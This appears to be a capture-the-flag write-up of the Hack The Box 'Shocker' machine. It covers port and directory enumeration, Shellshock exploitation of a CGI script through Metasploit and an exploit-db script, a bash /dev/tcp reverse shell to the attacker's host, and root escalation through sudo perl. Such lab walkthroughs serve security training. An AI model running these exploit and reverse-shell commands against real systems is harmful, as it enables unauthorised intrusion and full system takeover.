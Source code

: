 ![logo](/logo.png)

# [Shocker- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 30 Sep 2017 as the tenth machine on HTB,Shocker created by [mrb3n](https://app.hackthebox.com/users/2984) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *cgi
  *shellock
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/shocker 10.10.10.56
```

###### Output 

![](/Linux/Linux-Easy/Shocker/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/shocker 10.10.10.56                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 20:02 EAT
Nmap scan report for 10.10.10.56
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.28 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache`. 

port[80]-  http
port[2222]-ssh

So when we go the browser at [http://10.10.10.56](http://10.10.10.56)  looking at the browser we find a page with dont bug me!

![](/Linux/Linux-Easy/Shocker/Screenshots/browser.png)

I start `gobuster` and run it  to enumerate existing directories.

```sh
gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -x php -t 50
```



Due to the limited results, and inferring from the name of the Machine, it is fairly safe to assume at
this point that the entry method will be through a script in /cgi-bin/ using the Shellshock exploit.
Fuzzing for the extensions cgi, sh, pl, py get us the following results.

# Exploitation

With the discovered user.sh script, and due to the lack of another attack surface, it is quite clear
at this point that the exploit will be `shellshock` `Apache mod_cgi`. There is a Metasploit module
for this specific vulnerability, as well as a Proof of Concept on exploit-db.

```sh
cat user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/usersh.png)

we starte `msfconsole`

```sh
search apace cgi
```

![](/Linux/Linux-Easy/Shocker/Screenshots/msfconsole.png)

```sh
show options
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST 10.10.14.15
run
```

and just like that we get a meterpreter

![](/Linux/Linux-Easy/Shocker/Screenshots/meterpreter.png)

lets start a pyhon script from [exploitDB](https://exploit-db.com/exploits/34900/) so that we can do this manually 

```sh
python3 shellock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.15 lport=1337 pages=/cgi-bin/user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/userflag.png)


lets start a shell 

```sh
/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

![](/Linux/Linux-Easy/Shocker/Screenshots/shell.png)

then it close but gets us a shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellpython.png)

`perl` has a `-e` option that allows me to run Perl from the command line. It also has an `exec` command that will run shell commands. Putting that together, I can run `bash` as root

![](/Linux/Linux-Easy/Shocker/Screenshots/sudol.png)

```sh
sudo perl -e 'exec "/bin/bash"'
```

you can get `root` shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellroot.png)

	-------------------------END successful attack @lesley----------------------


